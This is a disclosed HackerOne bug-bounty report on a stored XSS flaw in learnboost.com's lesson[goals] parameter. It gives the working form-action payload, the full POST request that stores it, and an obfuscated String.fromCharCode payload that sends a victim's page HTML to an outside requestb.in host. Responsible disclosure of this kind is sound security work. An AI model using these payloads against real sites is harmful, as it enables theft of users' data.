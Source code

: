 # Stored XSS in learnboost.com via the lesson[goals] parameter.

## Report Details
- **Report ID**: 300270
- **URL**: https://hackerone.com/reports/300270
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-12-23T22:18:36.334Z
- **Disclosed**: 2018-04-22T20:55:22.790Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
# Summary
---

learnboost.com is vulnerable to stored XSS via the `lesson[goals]` parameter.

# Browsers Verified In
---

* Mozilla Firefox 58.0b12 (64-bit)

# PoC
---

The payload I used was:

```html
<form action="javasc
ript:alert(document.domain)"><button>Click</button></form>
```

{F249206}

```
POST /apps/lesson/update HTTP/1.1
Host: www.learnboost.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: https://www.learnboost.com/apps/lesson/5a3eca477aea32b6be2f639c
Content-Type: application/x-www-form-urlencoded
x-dynamic: 1
x-lb-csrf: REDACTED
X-Revision: 42ddad
X-Requested-With: XMLHttpRequest
Content-Length: 806
Cookie: learnboost=REDACTED
DNT: 1
Connection: close

__csrf=REDACTED&lesson%5B_teacher%5D=5a3ebf85b63f09f2be2e5694&lessonid=5a3eca477aea32b6be2f639c&lesson%5Bsections%5D=general%7Ctrue%7CGeneral%24standards%7Cfalse%7CStandards%24doc%7Cfalse%7CDoc+Editor%24materials%7Ctrue%7CMaterials%24evaluation%7Cfalse%7CEvaluation%24media%7Ctrue%7CMedia+(URLs)&lesson%5Bstandards%5D=&lesson%5Blesson_date%5D=&lesson%5Btitle%5D=Untitled&lesson%5Bmarketplace%5D=on&lesson%5Bconcept%5D=avavav&lesson%5Btags%5D=%5B%5D&lesson%5Bgradelevel%5D=&lesson%5B_classroom%5D=&lesson%5Breading%5D%5B%5D=&lesson%5Blinks%5D%5B%5D=&lesson%5Bgoals%5D=%3Cform%20action%3D%22javasc%0Aript%3Aalert(document.domain)%22%3E%3Cbutton%3EClick%3C%2Fbutton%3E%3C%2Fform%3E&lesson%5Bdocument%5D=&lesson%5Bmaterials%5D=&lesson%5Bevaluation%5D=&lesson%5Breflection%5D=
```

You can see the stored XSS in action here: https://www.learnboost.com/lesson/5a3eca477aea32b6be2f639c/untitled

## Impact

With my colleague's permission, I let them view the page where the following payload was located:

```html
<form action="javasc
ript:eval(String.fromCharCode(118,97,114,32,109,97,114,107,117,112,61,100,111,99,117,109,101,110,116,46,100,111,99,117,109,101,110,116,69,108,101,109,101,110,116,46,105,110,110,101,114,72,84,77,76,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,46,105,110,47,115,122,54,113,104,97,115,122,63,116,101,120,116,61,34,43,101,110,99,111,100,101,85,82,73,40,109,97,114,107,117,112,41,46,115,117,98,115,116,114,105,110,103,40,48,44,55,48,48,41))"><button>Click</button></form>
```

When they clicked on the button, the first 700 lines of their HTML dashboard were sent to my server.

On a side note, would it be possible to invite @gerben_javado to this report. We worked on this target together.

## Attachments
- Screenshot_from_2017-12-23_22-53-35.png
